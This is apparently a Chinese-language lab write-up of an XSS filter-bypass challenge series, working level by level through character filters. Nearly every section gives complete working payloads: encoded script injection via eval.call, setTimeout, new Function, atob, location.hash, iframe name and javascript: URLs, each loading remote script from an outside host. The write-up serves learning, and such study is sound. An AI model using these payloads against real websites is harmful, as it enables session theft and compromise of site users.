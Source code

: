 

# 独孤九剑

## 1.过滤=，()和，

Js能自动转换编码，于是用编码的document.create创建script标记并赋值绕过=，再用`${}`绕过括号

fay=document.createElement('SCRIPT');fay.src='http://xcao.vip/xss/alert.js';document.body.appendChild(fay);

document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'

执行该代码就创建了一个满足要求的script标签，将其编码绕过再用eval.call执行，编码用进制转换或者unicode即可
<script>eval.call`${'\x66\x61\x79\x3D\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x28\x27\x53\x43\x52\x49\x50\x54\x27\x29\x3B\x66\x61\x79\x2E\x73\x72\x63\x3D\x27\x68\x74\x74\x70\x3A\x2F\x2F\x78\x63\x61\x6F\x2E\x76\x69\x70\x2F\x78\x73\x73\x2F\x61\x6C\x65\x72\x74\x2E\x6A\x73\x27\x3B\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x62\x6F\x64\x79\x2E\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x28\x66\x61\x79\x29\x3B'}`</script>

``是模板字符串，${}中的也是js代码。
如果不用eval执行的话可以用svg标签，但是要将代码先进行html实体编码再进行url编码。
<svg><script>%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x3D%3B%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x63%3B%26%23x72%3B%26%23x65%3B%26%23x61%3B%26%23x74%3B%26%23x65%3B%26%23x45%3B%26%23x6C%3B%26%23x65%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x28%3B%26%23x27%3B%26%23x53%3B%26%23x43%3B%26%23x52%3B%26%23x49%3B%26%23x50%3B%26%23x54%3B%26%23x27%3B%26%23x29%3B%26%23x3B%3B%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x2E%3B%26%23x73%3B%26%23x72%3B%26%23x63%3B%26%23x3D%3B%26%23x27%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x63%3B%26%23x61%3B%26%23x6F%3B%26%23x2E%3B%26%23x76%3B%26%23x69%3B%26%23x70%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2F%3B%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x2E%3B%26%23x6A%3B%26%23x73%3B%26%23x27%3B%26%23x3B%3B%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x62%3B%26%23x6F%3B%26%23x64%3B%26%23x79%3B%26%23x2E%3B%26%23x61%3B%26%23x70%3B%26%23x70%3B%26%23x65%3B%26%23x6E%3B%26%23x64%3B%26%23x43%3B%26%23x68%3B%26%23x69%3B%26%23x6C%3B%26%23x64%3B%26%23x28%3B%26%23x66%3B%26%23x61%3B%26%23x79%3B%26%23x29%3B%26%23x3B%3B%26%23xA%3B</script></svg>
 
## 2.过滤=，()和.

依然可以用svg，也可以setTimeout,，setInterval也行，就是有点鬼畜。。
<script>setTimeout`\u0066\u0061\u0079\u003D\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0063\u0072\u0065\u0061\u0074\u0065\u0045\u006C\u0065\u006D\u0065\u006E\u0074\u0028\u0027\u0053\u0043\u0052\u0049\u0050\u0054\u0027\u0029\u003B\u0066\u0061\u0079\u002E\u0073\u0072\u0063\u003D\u0027\u0068\u0074\u0074\u0070\u003A\u002F\u002F\u0078\u0063\u0061\u006F\u002E\u0076\u0069\u0070\u002F\u0078\u0073\u0073\u002F\u0061\u006C\u0065\u0072\u0074\u002E\u006A\u0073\u0027\u003B\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0062\u006F\u0064\u0079\u002E\u0061\u0070\u0070\u0065\u006E\u0064\u0043\u0068\u0069\u006C\u0064\u0028\u0066\u0061\u0079\u0029\u003B`</script>

## 3.过滤().&#\# 

意味着不能用进制转换和html实体编码，用base64编码绕过
<iframe src="data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMnPjwvc2NyaXB0Pg==">
解码相当于
<iframe src="data:text/html,<script src='http://xcao.vip/xss/alert.js'></script>">
注意src中的<script>标签一定要</script>闭合,不闭合是无法执行的。

直接
<script src=http://xcao%252evip/xss/alert%252ejs></script>,经过浏览器一次解码，再js解码一次，可以绕过对点的过滤


## 4.过滤=().&#\

Location.replace加载JavaScript伪协议构造1里面的执行语句的编码结果，由于没有过滤url编码的%，所以用url编码，同样，url需要二次编码。过滤了点，用location[‘replace’]代替点。（另外伪协议中的内容）
如<script>location['replace']`javascript:eval%2528alert%25281%2529%2529`</script>

。。测试发现不行，直接编码有问题，应该是分号导致eval中断，1里面第二个没有分号间隔的语句是可以的，点依然也用url二次编码
%3Cscript%3Elocation[%27replace%27]`javascript:eval%2528document%252ebody%252eappendChild%2528document%252ecreateElement%2528%2527script%2527%2529%2529%252esrc%253D%2527http%253A%252F%252Fxcao%252evip%252Fxss%252Falert%252ejs%2527%2529`%3C/script%3E

尝试用location.hash.slice(1)
Locationg.hash是取锚点的内容，而Slice表示从已有数组中返回选定元素，slice(1)去掉了第一个字符#取后面的内容。用location.hash.substr(1)有同样的效果
正常url访问是不会带锚点内容的，更改锚点内容也不会导致重新发起请求。
<script>location['replace']`javascript:eval%2528eval%2528location['hash']['slice']%25281%2529%2529%2529`</script>#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'

下面附上一些对eval的尝试：

```
[]['constructor']['constructor']`a${confirm(1)}`()  √
eval`${confirm(2)}`  √
<script>eval(location['hash']['slice'](1))</script>#confirm(2)  √
<script>eval.call`${location['hash']['slice'](1)}`</script>#confirm(1)  √
<script>eval `${location['hash']['slice'](1)}`</script>#confirm(1)  x
<script>new Function`a${location['hash']['slice'](1)}`</script>#confirm(1)  √
[]['constructor']['constructor']`a${location['hash']['slice'](1)}`()  √
eval.call`a${location['hash']['slice'](1)}`  √
eval['call']`${location['hash']['slice'](1)}`  √
eval`a${location['hash']['slice'](1)}`  x
call方法可以去调用其他对象中的其他方法。
New Function 也可以替换eval，区别在于eval的作用域为当前作用域，而new Function的作用域是全局作用域，参照以下：
https://www.cnblogs.com/zhangfengyang/p/5526024.html
[]['constructor']['constructor']也可作为替代eval的一种方法
```

## 5.过滤().&#\%

比三题多了个url编码的过滤
Iframe+base64编码依然适用， 
另外把对应域名转成ip地址再转10进制也可以访问
转换方法如下：
IP地址：47.112.188.203
         |   |   |   |   对应转为16进制
16进制：2F. 70 . BC . CB
再将2F70BCCB转为10进制：795917515
访问http://795917515就是访问http://47.112.188.203
无法加载他指定的地址（alert.js中间的点无法处理）

## 6.过滤=().&#\%

以第四题为基准，多过滤了%，即不能用url编码。用`${}`来替代括号的话在控制台是可以执行的，但是放在url栏执行却出了问题。有语法问题排查不出来。只能换方法试试。

用document.write写一个script标签然后把src内容放锚点。
<script>document['write']`<script ${location['hash']['slice']`1`}`</script>#/src='http://xcao.vip/test/alert.js'
控制台里可以看到确实请求成功了的。我觉得应该是执行顺序的问题导致实际上并不会弹窗。刚刚也尝试了一下外带。结果是并不能外带数据。所以虽然请求成功了，但是还是算是失败。

于是不用script标签，改用onerror，支持的标签包括img，audio，video，一个过滤了可以试试其他的
<script>document['write']`<img ${location['hash']['slice']`1`}`</script>#/src='x'onerror=with(document)body.appendChild(createElement('script')).src='http://xcao.vip/test/alert.js'//
或者用iframe标签
<script>document['write']`<iframe ${location['hash']['slice']`1`}`</script>#/src=‘data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMnPjwvc2NyaXB0Pg==‘//

或者还可以用new Function替换eval，通过atob转换base64代码为可执行代码再用new Function执行
<script>new Function`a${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`</script>

## 7.过滤-().&\#%<>

回显的点改到了<script>标签内，过滤了两个尖括号以及各种符号，导致url，unicode等编码无效，由于在标签内，考虑直接执行代码创建欲加载的script标签。过滤了点所以代码无法直接执行，用6题的new Function+base64编码执行
new Function`a${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`
不直接执行也可以用锚点
new Function`a${location['hash']['slice']`1`}`#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'

思路太局限了…本来想过用 []['constructor']['constructor'] 试试的。结果主观印象里后面必须带俩括号，括号又被过滤了就不知道咋整了。。结果看wp才想起来对哦可以用``替代括号。。麻了麻了
[]['constructor']['constructor']`a${location['hash']['slice']`1`}```#document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js'
不用给a赋值然后隔开再执行，直接给a这个就行了

## 8.过滤=().&%#\%<>’”[]

又多了[ ] ’ ”，很明显不能再用[‘’]代替方法了，锚点失效，就只剩new function+base64了。套用上题即可

Wp里还有个构造一个iframe标签的网站，用iframe中的name属性赋值给js中的name变量，就可以把payload放在iframe中用于执行语句。学习了
<iframe src="http://xcao.vip/test/xss8.php/?data=new Function`b${name}```" name="with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'"></iframe>

## 8.1过滤=().&%#<>’”{}

过滤了大括号放开[]即不能用`${}`包含执行语句
放开了[]意味着可以用方法，但是没了单引号双引号。
其实是可以用反引号代替的（应该叫反引号吧）

做不动了参考wp：
依然是利用JavaScript伪协议
给a赋值base64解码后的payload，然后用Java伪协议加载payload。
atob`ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPScveHNzL2FsZXJ0LmpzJz48L3NjcmlwdD4iKQ`;location[`replace`]`javascript:a`
但是他给的

## 8.2过滤=().&%#<>’”{}和Function
比8多一个function考一个替代。
Settimeout不知道为啥只有这两个括号在才能执行，猜测是换成反引号后前面两个反引号给闭合了导致语法错误…没啥方法，难搞
setTimeout(`${atob`ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKSkuc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJw==`}`,2000);

还是看wp去了
他用了open函数。
open`javascript:name//${atob`PGltZyBzcmM9eCBvbmVycm9yPXdpdGgob3BlbmVyLmRvY3VtZW 50KWJvZHkuYXBwZW5kQ2hpbGQoY3JlYXRlRWxlbWVudCgnc2NyaXB0JykpLnNyYz0naHR0cDovL3hjY W8udmlwL3hzcy9hbGVydC5qcyc+`}`

## 9.只剩了个=
…看wp，再感叹一下师傅的思路。自己总是没法汇总
http://xcao.vip/test/xss913415426262.php?data=location=name用location配合伪协议来执行。Payload放name里
<iframe src="http://xcao.vip/test/xss913415426262.php?data=location=name" name="javascript:new Function(document.body.appendChild(document.createElement('script')).src='http://xcao.vip/xss/alert.js')"></iframe>


完结撒花，做这个之前只了解了一点xss的绕过技巧以及一些payload。没学过js的语法之类的。。所以在那些payload用不了的时候就变通不了了（麻了麻了），比如那个open函数替代，还有那个name属性之类的，同时脑子也转不过来，不熟练，考虑能用的姿势要考虑半天。不过我觉得这倒是一个好的思路，过滤一些字符再考虑能利用的姿势，刷下来倒是学到了蛮多。后面想弄一点关键词过滤然后整个合集，方便以后要用的时候查。

<a href='https://0xfay.github.io/public/image/独孤九剑.pdf'>这里是参考wp</a>
